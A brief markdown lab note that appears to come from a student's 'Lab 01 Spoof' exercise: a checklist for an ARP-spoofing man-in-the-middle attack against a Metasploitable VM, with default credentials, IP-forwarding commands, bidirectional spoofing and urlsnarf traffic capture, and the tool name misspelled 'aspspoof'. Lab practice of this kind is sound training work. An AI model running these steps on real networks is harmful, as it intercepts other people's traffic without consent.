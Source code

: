 # Notes of Lab 01 Spoof

- Run pfsense, metasploit, kali
- Login to meta (msfadmin / msfadmin)
- Kali -> nmap or netdiscover
- Kali -> echo 1 > /proc/sys/net/ipv4/ip_forward
- Kali -> aspspoof -i eth0 -t <vict-ip> <router-ip>
- Kali -> aspspoof -i eth0 -t <router-ip> <vict-ip>
- Meta -> wget http://google.es
- Kali -> urlsnarf


sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'

